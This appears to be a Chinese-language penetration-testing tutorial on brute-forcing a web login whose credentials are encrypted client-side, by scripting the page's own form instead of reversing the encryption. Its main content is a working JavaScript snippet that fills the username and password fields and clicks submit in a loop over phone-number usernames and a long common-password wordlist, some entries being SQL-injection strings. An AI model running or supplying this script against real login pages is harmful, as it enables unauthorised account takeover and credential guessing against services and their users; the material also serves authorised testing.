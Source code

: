 ## 前言
平时测试的时候，可能会遇到一些接口（如登陆接口）中的某些数据是加密的，如下图：
![](./05.网页接口加密暴破.assets/2023_05_19_10_44_39_busgzKyo.png)
**一般的思路：通过逆向分析前端加密算法，拿到密钥，再写脚本模拟加密过程构造想要的数据**
[!note]
上面的思路是常规的思路，如果代码存在混淆，则比较费时费力，甚至分析不出来
因为加密都是在前端执行的，那么我们只需要模拟前端的操作即可
此处抛开burp插件不谈
## 解决办法
通过js模拟操作即可

1. 定位输入框和按钮
2. 设置数据
3. 点击按钮

---

分析代码，找到我们要输入的框
![](./05.网页接口加密暴破.assets/2023_05_19_10_44_39_2CQioSmT.png)
然后定位到数据，有jquery的话会方便很多，没有就使用原生的js也不影响
```javascript
document.getElementsByName("username")[0]
document.getElementsByName("password")[0]
document.getElementsByClassName("btn btn-primary btn-block")[0]
```
如果不好找，可以直接编辑html，手动添加id属性
![](./05.网页接口加密暴破.assets/2023_05_19_10_44_40_tvyH5bCY.png)
然后再通过id进行定位
```javascript
document.getElementById("testusername")
```
定位后该插入数据的就插入数据，该点击的就点击，具体看下面的实现代码
## 实现代码
```javascript
var usernames = new Array('13299999999','13333333333','18888888888','13000000000');
var passwords = new Array('qwe123','root','toor','admin','admin123','admin666','admin888','123456','12345','1234','123','12','1','administrator','administrators','admin123456','admin12345','admin1234','admin12','admin1','phpcms','jyxy','asd123','xiaoyin','daxiong','ironport','111111','0','11111111','112233','123123','123321','12345678','654321','666666','888888','abcdef','abcabc','abc123','a1b2c3','test','aaa111','123qwe','qwerty','qweasd','password','p@ssword','passwd','iloveyou','5201314','monkey','1234567','letmein','trustno1','dragon','baseball','master','sunshine','ashley','bailey','passw0rd','shadow','superman','qazwsx','michael','football','xiaoming','qq123456','taobao','wang1234','zxc','changeme','654310','user','Password1','Password123','sql','sqlserver','server','webserver123','pos','kingdee','anypass','jie1982','database','sapassword','9876','sa123','p@ssw0rd','sa','1q2w3e','1q2w3e4r','1234qwer','8848','sasa','asas','9','99','999','9999','99999','999999','9999999','99999999','8','88','888','8888','88888','8888888','88888888','7','77','777','7777','77777','777777','7777777','6','66','666','6666','66666','5','55','555','5555','55555','555555','4','44','444','4444','44444','444444','4444444','3','33','333','3333','33333','333333','2','22','222','2222','22222','222222','11','111','1111','11111','manager','!@#$%^&*()','qwerty123456','zxcvbn123456','sa1','as','aa','aaa','abcd1234','aaaaaa','asdfghjkl;\'','sa123456789','sasasasa','@#$%&*()','gsp','asdf','power','123@#','778899','13579','12344321','147258','!@#$%^','!@#123','!@#$%^&*()','123!@#','!@##@!','1q2w3e4r','1q2w3e4r5t','1qaz2wsx','1qazxsw2','1qaz2wsx3edc','a','admin75','asd','crm','chinanet','erp','hello','hr','iem','king','MEDIA','microsoft','mnbvcxz','mysql','mysteelsoft','plm','q1w2e3r4','qwertyuiop','r4e3w2q1','sa!@#','sa!@#$%^','sa123456','sapass','saas','sasasa','sql2008','sqlpass','sqlpassword','sqladmin','sys','system','sunny','tianya','zxcvbnm','ems','crm2006','crm2007','crm2008','crm2009','crm2010','hrsvr','sa20060876','golf','123456Aa','123456Ab','123456Ac','test123','WebLogic','free','user1','user12','user123','user1234','user12345','user123456','#NAME?','liuwei123','admin2006','neteye','Test123456','admin*123','ucenter','aa123456','h3capadmin','1234567890','boston','guest','phpmyadmin','fuckyou','7007','jyadmin','020php168','seeyon','111111111','nozuonodie','1\'or\'1\'=\'1','world','helloworld','manageradmin111111','manageradmin','adminmanager111111','adminmanager','123456qq','qazwsxedc','huangxiaoqin','123456a','huawei','ncportal','111000','1314520','\'or\'=\'or\'','default','enable','discuz','laixianjian','unvs123','wordpress','leolee','localhost','10000','neworiental','youyuan','zuods123','123***','tomcat','dba','zted888888','xunlei','110','120','114','119','apache','xcmcn123456','adminInfo','skyclass','XXOO','xuezhenhe','10086','10010','guanliyuan','yunwei','cctv6','cctv5','cctv4','cctv3','cctv2','cctv1','12306','12306caonima','ete123','server123','null','admin111','caonima','nimabi','mlgb','conadmin','1qaz!QAZ','TRUE','FALSE');
for (i in usernames) {
    document.getElementById("testusername").value=usernames[i]
    for (j in passwords) {
        document.getElementById("testpassword").value=passwords[j]
        document.getElementsByClassName("btn btn-primary btn-block")[0].click()
    }
}
```
效果：
![](./05.网页接口加密暴破.assets/2023_05_19_10_44_40_nKg5h0H7.png)
